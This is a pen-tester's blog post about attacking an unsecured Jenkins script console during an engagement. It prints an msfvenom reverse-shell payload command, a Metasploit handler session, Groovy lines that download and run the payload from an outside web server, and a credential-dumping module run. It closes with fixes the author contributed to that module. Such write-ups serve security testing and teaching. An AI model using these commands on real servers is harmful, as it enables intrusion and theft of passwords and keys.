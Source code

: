 ```yaml
---
layout: post
title: "Attacking a temperamental ten-year-old Jenkins server"
author: "Joshua Rogers"
categories: security
---
```


During my pen-testing, I've found it quite common to find Jenkins instances which either have open registration, or an easy-to-guess login combination.
Jenkins has functionality that allows users to execute Groovy script via its [/script/ endpoint](https://www.jenkins.io/doc/book/managing/script-console/).
If this is not secured, an attacker can execute system commands on the Jenkins server, decrypt passwords, and steal keys.

The easiest way to exploit this is to use Metasploit's `exploit/multi/http/jenkins_script_console` module to gain an initial shell, and then `post/multi/gather/jenkins_gather`, to dump all of the passwords and keys.
The general method is outlined in the [documentation for the script](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/post/multi/gather/jenkins_gather.md#verification-steps).

On my most recent encounter with this, the `jenkins_script_console` module refused to work for some reason.

Instead of using the typical `jenkins_script_console` script, instead I prepared a reverse shell payload myself, using Metasploit's `msfvenom`.
```sh
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.0.0.3 LPORT=4444 -f elf -o /tmp/payload.bin
```

I then uploaded payload.bin to my web-server, to be downloaded later on on the Jenkins server.

Back on my host, I run `msfconsole`, and use the following:

```sh
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set PAYLOAD linux/x86/shell_reverse_tcp
PAYLOAD => linux/x86/shell_reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.0.0.3
LHOST => 10.0.0.3
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.0.0.3:4444 
```

On the Jenkins instance, I ran the following groovy code:
```groovy
"wget http://joshua.hu/payload.bin -O /tmp/".execute().text
"chmod +x /tmp/payload.bin".execute().text
"/tmp/payload.bin".execute().text
```

The connection with the Metasploit module is made, we background the session, and then we use the jenkins_gather 
```sh
[*] Command shell session 1 opened (10.0.0.3:4444 -> 10.0.0.4:27468) at 2023-02-22 01:10:28 +0000

^Z
Background session 1? [y/N]  y
msf6 exploit(multi/handler) > use post/multi/gather/jenkins_gather
msf6 post(multi/gather/jenkins_gather) > set SESSION 1
SESSION => 1
msf6 post(multi/gather/jenkins_gather) > run

[*] Searching for Jenkins directory... This could take some time...

[-] No Jenkins installation found or readable, exiting...
```

Aaaand it failed. What?
As it turns out, the server Jenkins was running on had a nearly full disk, and the hardware was over a decade old. The kernel was from 2014!

In order for the Metasploit module to determine where secrets are kept, `find / -name 'secret.key.not-so-secret'` is run, with a 120-second timeout.
On this server, the `find` command was taking over two minutes, and even though I knew where the secrets were stored, I couldn't force the module to use it. The other pitfall was that even if `find` did find the correct folder, it did not halt searching the drive after the first result; it would just time-out, due to the nearly-full drive.

I made a patch to add an optional variable that instructs the module to use a specific directory for the secrets, [metasploit-framework/pull/17681](https://github.com/rapid7/metasploit-framework/pull/17681).

Then, I ran into more trouble:sh
```
[-] Post failed: NoMethodError undefined method `empty?' for nil:NilClass
[-] Call stack:
[-]   /opt/metasploit-framework/embedded/framework/modules/post/multi/gather/jenkins_gather.rb:235:in `block in pretty_print_gathered'
[-]   /opt/metasploit-framework/embedded/framework/modules/post/multi/gather/jenkins_gather.rb:231:in `each'
[-]   /opt/metasploit-framework/embedded/framework/modules/post/multi/gather/jenkins_gather.rb:231:in `pretty_print_gathered'
[-]   /opt/metasploit-framework/embedded/framework/modules/post/multi/gather/jenkins_gather.rb:348:in `gathernix'
[-]   /opt/metasploit-framework/embedded/framework/modules/post/multi/gather/jenkins_gather.rb:363:in `run'
```

A bug in the jenkins_gather script meant that a (valid) empty SSH key would cause the script to crash. I pushed [metasploit-framework/pull/17416](https://github.com/rapid7/metasploit-framework/pull/17416) to fix that one, too.

